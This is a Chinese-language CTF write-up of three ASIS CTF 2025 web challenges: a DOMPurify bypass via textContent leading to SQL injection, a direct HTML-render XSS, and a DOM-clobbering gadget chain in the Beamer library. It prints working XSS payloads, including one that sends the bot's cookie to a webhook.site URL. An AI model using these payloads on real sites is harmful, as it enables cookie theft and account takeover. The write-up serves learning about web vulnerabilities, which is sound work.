# ASIS CTF 2025 WEB WP-先知社区

> **来源**: https://xz.aliyun.com/news/19068  
> **文章ID**: 19068

---

# ScrapScrap I Revange

```
A web service, http://91.107.176.228:3000, that allows users to scrape websites, but only offers demo accounts that check whether you can be scraped.

If you want to enjoy the service 100%, find a way to get a user account.

Download the attachment!

Thanks to Worty as author! 😊
```

这道题的原题被非预期了，太简单了就不看了因为不是正常求解的过程，所以我们就直接看revange吧。

## 简单一遍流程

进来随便创建一个账号先  
  
说是随便测试了baidu.com，看见进行了两个请求  
  
看一下后端做了什么事情吧  
看到checker.js

```
router.post('/visit', requireAuth, async (req, res) => {
  const { url } = req.body;
  try {
    if(!url.startsWith("http://") && !url.startsWith("https://")) {
      req.session.flash = { type: 'error', message: 'Invalid URL.' };
    } else {
      await visitUserWebsite(url, req.session.user.data_dir);
      req.session.flash = { type: 'success', message: 'Your website can definitely be scrap, be careful...' };
    }
  } catch (e) {
    console.log(e);
    req.session.flash = { type: 'error', message: `An error occured.` };
  }
  res.redirect('/checker');
});
```

走到bot：

```
console.log("[BOT] - Bot is login into the app...");
await page.goto("http://localhost:3000/login");
await page.waitForSelector("[name=password]");
await page.type("[name=username]", bot_username);
await page.type("[name=password]", bot_pwd);
await page.keyboard.press("Enter");
console.log("[BOT] - Bot logged in !");

......
......

await page.goto(targetUrl);
```

其实就登录了之后带着自己的cookie去访问传进来的url而已

## 细细析看

我们可以先看一下flag会出现的地方  
scrap.ejs

```
<% if (user.username != "superbot") { %>
    <p>Goodjob, the flag is: ASIS{FAKE_FLAG1}</p>
<% } else { %>
    <p>Welcome owner :heart:</p>
<% } %>
<h2>Scrapper</h2>
<form action="/scrap/run" method="post" class="card">
  <label>Website you want to scrap
    <input name="url" type="url" required placeholder="https://exemple.com" />
  </label>
  <button>Scrap scrap scrap !</button>
</form>

```

即当用户能访问到scrap以及username不为superbot的情况下面才可以得到flag  
首先是哪个地方渲染了scrap.ejs  
/routes/scraper.js

```
router.get('/', requireAuth, async (req, res) => {
  res.render('scrap');
});
```

那么这个逻辑是不是只要我注册一个普通的用户就可以直接访问得到flag了？  
 恭喜你你解出来了ScrapScrap I  
我们还要注意一个地方  
app.js

```
app.use('/scrap', requireUser, scrapRouter);
```

middleware

```
function requireUser(req, res, next) {
  if(!req.session.user) {
     req.session.flash = { type: 'error', message: 'Please log in.' };
     return res.redirect('/login'); 
  }
  if(req.session.user.role != "user") {
      req.session.flash = req.session.flash = { type: 'error', message: 'Unauthorized.' };
      return res.redirect('/checker');
  }
  next();
}
```

需要你的role为user才可以这样子得到flag，那么其实我们的思路就很明确了，我们需要将我们的role变成user然后访问/scrap就能得到flag了！

这个时候就要看我们注册的时候默认的user.role是什么了

```
async function initDb() {
  await getDb();

  await exec(`
    PRAGMA foreign_keys = ON;
    CREATE TABLE IF NOT EXISTS users (
      id INTEGER PRIMARY KEY AUTOINCREMENT,
      username TEXT NOT NULL UNIQUE,
      password TEXT NOT NULL,
      data_dir TEXT NOT NULL UNIQUE CHECK(length(data_dir)=8),
      scrap_dir TEXT NOT NULL UNIQUE,
      role TEXT NOT NULL DEFAULT 'demo'
    );
    CREATE TABLE IF NOT EXISTS logs (
      entry TEXT NOT NULL
    );
    CREATE TRIGGER IF NOT EXISTS users_immutable_dirs
    BEFORE UPDATE ON users
    FOR EACH ROW
    WHEN NEW.data_dir IS NOT OLD.data_dir OR NEW.scrap_dir IS NOT OLD.scrap_dir
    BEGIN
      SELECT RAISE(ABORT, 'data_dir and scrap_dir are immutable');
    END;
  `);

  const bot_username = process.env.BOT_USERNAME || 'superbot';
  const salt = await bcrypt.genSalt(10);
  const bot_pwd = await bcrypt.hash(process.env.BOT_PWD || 'superbot', salt);

  await createUser(bot_username, bot_pwd);

  await database.query(`
    UPDATE users SET role='user' WHERE id=1;
  `);
}
```

可以看到默认用户role为'demo'然后superbot的role为'user'  
那么现在关于role的数据都写在数据中，那么我们应该去寻找有没有注入点可以利用  
幸运的是：/routes/auth.js

```
router.post('/debug/create_log', requireAuth, (req, res) => {
  if(req.session.user.role === "user") {
    //rework this with the new sequelize schema
    if(req.body.log !== undefined
      && !req.body.log.includes('/')
      && !req.body.log.includes('-')
      && req.body.log.length <= 50
      && typeof req.body.log === 'string') {
        database.exec(`
          INSERT INTO logs
          VALUES('${req.body.log}');
          SELECT *
          FROM logs
          WHERE entry = '${req.body.log}'
          LIMIT 1;
        `, (err) => {});
    }
    res.redirect('/');
  } else {
    res.redirect('/checker');
  }
});
```

有一个地方具有Sql注入，那么我们是不是可以利用这个来UPDATE我们的role呢？

## 利用

### CSRF？

在这个师傅的wp中写到一个思路，可不可以用bot的visit功能写一个CSRF来给我们改一个role呢？  
看到app.js

```
app.use(session({
  store: new SQLiteStore({ db: 'sessions.sqlite', dir: path.join(__dirname, 'data') }),
  secret: crypto.randomBytes(64).toString('hex'),
  resave: false,
  saveUninitialized: false,
  cookie: { httpOnly: true, sameSite: 'lax' }
}));
```

看到一这里cookie对于sameSite设置了lax，那么就只能使用GET、HEAD和OPTIONS这种安全的请求方法，因为他不会改变什么东西，并且要求是要sameSite的  
  
所以利用CSRF并不太可能因为我们需要利用POST来进行注入

### Xss To Sql Injection

显而易见，我们必须用superbot来进行注入，那么目前还能有什么方法？排除一系列漏洞，其实很简单可以想到XSS，那我们的具体思路是什么？  
思路：找到XSS点，让superbot进行post请求到/debug/create\_log来进行注入使得我们的role变成user

那么回到我之前写的文章，思考的问题，两个角度，payload是怎么放到页面上的，又是否被存储了？我们先考虑前者

```
async function main() {
  const params = new URLSearchParams(window.location.search);
  const url = params.get("url");
  if(url) {
    setTimeout(() => {
      somethingWentWrong();
    }, 8000);
    document.getElementById("div_url").style.visibility = 'visible';
    let url_cleaned = DOMPurify.sanitize(url);
    document.getElementById("msg_url").innerHTML = url_cleaned;
    const input = document.createElement("input");
    input.name = "url";
    input.type = "url";
    input.id = "input_url"
    input.required = true;
    input.value = url;
    const form = document.getElementById("scrap_form");
    form.appendChild(input);
    form.submit();
  } else {
    document.getElementById("div_url").remove();
    document.getElementById("error_url").remove();
    document.getElementById("input").innerHTML = '<input name="url" type="url" required placeholder="https://exemple.com" />';
  }
}

```

起初我看见这一个文件的时候因为看到了DOMPurify,我认为没戏了，因为要么0day要么就是XSS绕过不了，但是在这篇wp学到了一个新的东西，我们首先看我们的url会被放到什么地方?  
1、somethingWentWrong

```
function somethingWentWrong() {
  let url = document.getElementById("msg_url").textContent;
  let error = document.getElementById("error_url");
  error.style.visibility = 'visible';
  error.innerHTML = `Something went wrong while scrapping ${url}`;
}
```

直接把msg\_url.textContent给到了url然后加入到了innerHTML中，那我是不是可以直接把内容改成payload然后触发呢？

#### 关于一个textContent的trick

这里加入一个trick，就是textContent和innterText的区别  
textContent gets the content of *all* elements, including `<script>` and `<style>` elements  
`innerText` only shows "human-readable" elements.  
而这里就是用了这个特性绕过了DOMpurify的限制，因为他们得出来的都是文本内容，并不会被purify掉利用这个特性，我们在本题目中就是  
首先是textContent，然后经过DOMpurify后变成了innerHTML，所以我们只需要构造一个textContent里面包含了xss的payload即可触发xss

payload:`http://<<i>img src onerror=alert(origin)</i>>`  
  
  
可以看到并不会触发，是为什么呢？因为他是在抛出错误中的而不是main函数中的，我们需要绕过这8s的限制然后走到

```
document.getElementById("msg_url").innerHTML = url_cleaned;
```

这个位置才可以触发xss  
两个方式：把url写成自己server，里面开一个服务让他延迟8秒  
方式二：  
  
任意选一个即可  
  
所以最后面就是提升role了  
再看回去其中的限制，长度小于51，不允许包含`-`和`/`号  
构造一下

```
INSERT INTO logs
VALUES('');
SELECT *
FROM logs
WHERE entry = ''
LIMIT 1;
```

paylaod:

```

```

## 本题参考链接

写的真的蛮详细的  
<https://siunam321.github.io/ctf/ASIS-CTF-Quals-2025/Web/ScrapScrap-I-Revenge/>

# Under the beamers

很简单的一道题目  
这道题估计是有问题，不然后面也不会出revange  
先是看一眼index.html

```
<body>
    <div class="container">
        <div class="header">
            <h1>Under the beamers</h1>
        </div>
        
        <h2>HTML Renderer</h2>
        <textarea id="content" placeholder="Enter your HTML content here..." onkeyup="updateIframe()">Hello world</textarea>
        
        <p class="preview-label">Preview (updates 500ms after typing stops):</p>
        <iframe id="renderer"></iframe>
    </div>

    <script>
        function renderIframe() {
            const textarea = document.getElementById("content");
            const iframe = document.getElementById("renderer");
            const content = textarea.value;

            try {
                localStorage.setItem("textareaContent", content);
            } catch (e) {
                console.warn("Could not save to localStorage:", e);
            }

            const htmlContent = `
                <!DOCTYPE html>
                <html>
                <head>
                    <meta charset="UTF-8">
                </head>
                <body>
                    <div>${content}</div>
                    <script>
                        var beamer_config = {
                          product_id : "TCocQlcK73424",
                          user_id: "00000000-0000-0000-0000-000000000000"
                        };
                    <\/script>
                    <script type="text/javascript" src="/beamer-embed.js" defer="defer"><\/script>
                    <script>
                        setTimeout(() => { Beamer.update({language: "FR"}) }, 1000); /*
                        window.Beamer&&window.Beamer.update()
                        */
                    <\/script>
                </body>
                </html>`;

            iframe.srcdoc = htmlContent;
        }

        let debounceTimer;
        function updateIframe() {
            clearTimeout(debounceTimer);

            debounceTimer = setTimeout(function() {
                renderIframe();
            }, 500);
        }

        function getUrlParameter(name) {
            const urlParams = new URLSearchParams(window.location.search);
            return urlParams.get(name);
        }

        function loadSavedContent() {
            const textarea = document.getElementById("content");
            
            const html = getUrlParameter("html");
            if (html) {
                textarea.value = html;
                try {
                    localStorage.setItem("textareaContent", html);
                } catch (e) {
                    console.warn("Could not save to localStorage:", e);
                }
            } else {
                try {
                    const savedContent = localStorage.getItem("textareaContent");
                    if (savedContent) {
                        textarea.value = savedContent;
                    }
                } catch (e) {
                    console.warn("Could not load from localStorage:", e);
                }
            }
            
            renderIframe();
        }

        const textarea = document.getElementById("content");
        textarea.addEventListener("input", updateIframe);
        document.addEventListener("DOMContentLoaded", loadSavedContent);
    </script>
</body>
```

其实就是直接渲染这个html到iframe里面而已  
直接可以看到bot这边

```
async function goto(html) {
    logMainInfo("Starting the browser...");
    const browser = await puppeteer.launch({
        headless: "new",
        ignoreHTTPSErrors: true,
        args: [
            "--no-sandbox",
            "--disable-gpu",
            "--disable-jit",
            "--disable-wasm",
            "--disable-dev-shm-usage",
        ],
        executablePath: "/usr/bin/chromium-browser"
    });

    // Hook tabs events
    browser.on("targetcreated", handleTargetCreated.bind(browser));
    browser.on("targetdestroyed", handleTargetDestroyed.bind(browser));

    /* ** CHALLENGE LOGIC ** */
    const [page] = await browser.pages(); // Reuse the page created by the browser.
    await handleTargetCreated(page.target()); // Since it was created before the event listener was set, we need to hook it up manually.
    await page.setDefaultNavigationTimeout(5000);

    logMainInfo("Going to the app...");
    await browser.setCookie({
        name: "flag",
        value: process.env.FLAG,
        domain: "under-the-beamers-app.internal:5000",
        path: "/",
        httpOnly: false
    });

    logMainInfo("Going to the user provided link...");
    try { await page.goto(`http://under-the-beamers-app.internal:5000/?html=${encodeURIComponent(html)}`) } catch {}
    await delay(2000);

    logMainInfo("Leaving o/");
    await browser.close();
    return;
}
```

只需要传个参数过去，就可以直接执行js命令了，甚至不用绕CORS

```
echo '<html><script>const a=document.cookie;fetch("https://webhook.site/64a13b5f-c498-42f5-b1bc-5bc0ae8761ba/?flag="+a)</script></html>' | nc attack.ip port
```



# Under the beamers-revange(0 sovled)

现在因为这种题目出多了，我就知道只要出dompurify就一定不是0day，要么就是找library的洞，要么就是找trick去绕。

对比与上一题，这里加入了DOMPurify（我知道肯定不是0day : )

```
<script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/3.2.6/purify.min.js"></script>
```

然后对内容做了santize

```
const sanitizedContent = DOMPurify.sanitize(content);
```

所以其实现在我们就两个方向，一个就是0day，一个就是找地方绕过，那么我们其实看完源码就知道，其实没地方做了新的处理，也没有trick的地方因为他是直接放到iframe的srcdoc里面的，所以唯一的地方就是在这个beamer的library中了.

我们在最开始的时候就可以看到一个很有趣的地方

```
"undefined" === typeof window.Beamer && (window.Beamer = {});
```

也就是当Beamer没有定义的时候就给他赋值为一个空的对象，也就是为了保证window.Beamer是存在的。  
这种也就是我们常见的Classic Configurable Library，在这种模式下，library在加载的时候要先定义一个配置对象，就是index.html中的这个

```
var beamer_config = {
    product_id : "TCocQlcK73424",
    user_id: "00000000-0000-0000-0000-000000000000"
};
```

然后再载入外部/内部库的脚本文件，上面给出的undefined就是判断是否对Beamer有定义，没有的话就自动创建一个，保证没有定义从而报错

对于这种预先定义的对象，我们是否可以覆盖掉？这个就是联系到我们之前学习的DOM-clobbering了，具体可以看我博客：[XSS-DOM CLOOBERING](https://ml-hacker.github.io/posts/%E6%8E%A2%E7%B4%A2xss%E5%AE%89%E5%85%A8day%E4%B8%89/) 这一篇文章，我们这里加入一点新的东西

## strict mode?

他是ECMAscript 5引入的一种语法变体，其实就是让你的代码在更加严格的环境下运行。  
启动：

```
use strict;
```

在静默模式(default)下：

```
<a id="x"></a><a id="x" name="y"></a>

<script>
console.log(x.y);
// <a id="x" name="y"></a>
x.y = "mizu";
console.log(x.y);
// <a id="x" name="y"></a>
</script>
```

这个时候我们可以尝试修改属性，虽然并不会改掉其中的值  
在strict模式下：

```
<a id="x"></a><a id="x" name="y"></a>

<script>
"use strict";

console.log(x.y);
// <a id="x" name="y"></a>
x.y = "mizu";
// Uncaught TypeError: Failed to set a named property 'y' on 'HTMLCollection': Named property setter is not supported.
</script>
```

可以看到会抛出一个错误，即我只要尝试更改这些值就会被禁止，而默认情况下面都属于静默模式，利用这一特点，我们或许可以覆盖掉Beamer的某些东西？

## DOM-Clobbering gadget链

这里我用A5rZ写的一个例子自己写了一个。

```
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Dom-clobbering gadget construct!</title>
</head>
<body>
<a id="Beamer"></a>
<a id="Beamer" name="escapeHtml" class="remove"></a>

<div id="exp"></div>

<script>

"undefined" === typeof window.Beamer && (window.Beamer = {});
console.log('现在Beamer为:',window.Beamer);
console.log('Beamer.escapeHtml：',window.Beamer.escapeHtml);
Beamer.escapeHtml = function(a) {//过滤函数
    try {
        return a.replace(/&/g, "&amp;").replace(/</g, "&lt;").replace(/>/g, "&gt;").replace(/"/g, "&quot;").replace(/'/g, "&#039;")
    } catch(b) {
        return a
    }
};
console.log("定义完Beamer.escapeHtml后的值:",window.Beamer.escapeHtml)

var rm = document.getElementsByClassName('remove')[0];
console.log("利用getElementsByClassName得到的值：",rm);
if (rm) rm.remove();
console.log("删除后:",window.Beamer)
console.log("移除后Beamer.escapeHtml：",window.Beamer.escapeHtml);

let xss_payload = '';

if ('undefined' !== typeof Beamer.escapeHtml)
  xss_payload = Beamer.escapeHtml(xss_payload);

document.getElementById('exp').innerHTML = xss_payload;

</script>
</body>
</html>

```

  
可以看到成功的把escapeHtml给他去掉了  
对应的值：  


## 利用

而对于我们这道题目，因为他会对写入到innerHtml的数据进行escapeHtml，所以我们就要用到上面的手法构造一个链子把这个tag给他删了。  
MIZU师傅用了这个函数:

```
Beamer.removeIframe = function() {
    var a = Beamer.isInApp() ? "beamerNews" : "beamerOverlay";
    Beamer.forEachElement(a, function(b) {
        b.parentNode.removeChild(b)
    })
}
```

而在此之前，我们要看一下isInApp是做了什么

```
Beamer.isInApp = function() {
    return "undefined" !== typeof beamer_config.display && ("in-app" === beamer_config.display || "compact" === beamer_config.display)
};
```

而我们这里因为在初始化的时候并没有传入这个display参数，所以这里默认走的是beamerOberlay，也就是会删除这个节点的Child,那么我们是不是可以这样子构造:

```
<a id="beamerOverlay"><p id="Beamer" name="escapeHtml"></a>
```

从而删除我们的escapeHtml？

我们继续往上找，因为我们没办法控制直接调用这个函数

```
Beamer.appendAlert = function(a, b) {
    // ...
    var l = Beamer.getConfigParameter(f, "activateAutoRefresh");
    if (!Beamer.isEmbedMode() && ("undefined" === typeof beamer_config.auto_refresh || beamer_config.auto_refresh) && "undefined" !== typeof l && l && "undefined" !== typeof k && k) {
        if (h || "undefined" !== typeof b && b)
            _BEAMER_IS_OPEN ? Beamer.removeOnHide = !0 : Beamer.removeIframe(),
```

在appenAlert位置调用了他，并且在update的地方调用了appendAlert这个函数

```
Beamer.update = function(a) {
    if ("undefined" !== typeof a) {
        var b = !1;
        // ...
        "undefined" !== typeof a.language && beamer_config.language !== a.language && (beamer_config.language = a.language,
        b = !0);
        // ...
        for (var c in a)
            if (a.hasOwnProperty(c) && !(-1 < Beamer.reservedParameters.indexOf(c))) {
                var d = a[c];
                "undefined" === typeof d || "object" === typeof d || Beamer.isFunction(d) || beamer_config[c] === d || (beamer_config[c] = d,
                b = !0)
            }
        b && (Beamer.started ? Beamer.appendAlert(!0, !0) : Beamer.init()) // HERE
    }
}
```

而正正好的是我们在初始化的时候就是传入了Beamer.update({ language: "FR" })，从而可以触发appendAlert，所以这个链子就形成了  
gadget：

```
update->appendAlert->removeIframe
```

## XSS gadget

最后一个地方就是我们如何写到innerHtml，配合我们上面remove escapeHtml的gedget  
我们看到这个函数

```
Beamer.appendUtilitiesIframe = function(a) {
    if ("undefined" === typeof Beamer.config.disableUtilitiesIframe || !Beamer.config.disableUtilitiesIframe)
        try {
            if (!document.getElementById("beamerUtilities")) {
                var b = "undefined" !== typeof Beamer.customDomain ? Beamer.customDomain : _BEAMER_URL;
                b += "utilities?app_id=" + beamer_config.product_id;
                "undefined" !== typeof Beamer.escapeHtml && (b = Beamer.escapeHtml(b));
                Beamer.appendHtml(document.body, "<iframe id='beamerUtilities' src='" + b + "' width='0' height='0' frameborder='0' scrolling='no'></iframe>")
            }
            "undefined" !== typeof Beamer.customDomain && Beamer.setIframeCookies();
            "undefined" !== typeof a && a && Beamer.initUpdatesListener()
        } catch (c) {
            Beamer.logError(c)
        }
}
```

当我们Beamer.customDomain存在的时候，就将这个值直接放到一个iframe里面，所以我们可以构造出来一个这样子的payload

```
<a id="Beamer" name="customDomain" href="http:'/onload='console.log(document.cookie)'/x='"></a>
```

这里因为http是可以走过DOMPurify的，并且这里的`'`不是url encoded而是实体。  
具体：  
  
而同样的，你可以很惊奇的发现在appendAlert中，他也自动的调用了appendUtilitiesIframe这个函数，但是因为我们把escapeHtml给覆盖掉了，所以我们此时的escapHtml是一个`HTMLCollection`的状态，所以在调用

```
escapeHtml = Beamer.escapeHtml(escapeHtml);
```

的时候会报错，而在前面这个函数里面可以看到

```
Beamer.appendPushScript = function(a) {
    if (!(Beamer.isSafari() || Beamer.isIE() || Beamer.isFacebookApp() || Beamer.isInstagramApp()))
        if ("undefined" !== typeof Beamer.pushDomain)
            (Beamer.pushDomain == window.location.host || "undefined" !== typeof Beamer.extendedPushDomain && Beamer.extendedPushDomain && window.location.host.endsWith("." + Beamer.pushDomain)) && Beamer.appendPushPermissionScript(a);
        else if ("undefined" !== typeof _BEAMER_PUSH_PROMPT_TYPE && ("popup" == _BEAMER_PUSH_PROMPT_TYPE || "sidebar" == _BEAMER_PUSH_PROMPT_TYPE)) {
            // ...
            "undefined" !== typeof Beamer.escapeHtml && (b = Beamer.escapeHtml(b)); // HERE
            Beamer.appendHtml(document.body, "<iframe id='beamerPush' src='" + b + "' width='0' height='0' frameborder='0' scrolling='no'></iframe>")
        }
}
```

当pushDomain不为undefined的时候，就不会走到调用的位置也就不会报错了。

所以最后payload

```
<p id="Beamer" name="pushDomain"></p>
<p id="Beamer"></p>
<a id="Beamer" name="customDomain" href="http:'"'"'/onload='"'"'console.log(document.cookie)'"'"'/x='"'"'"></a>
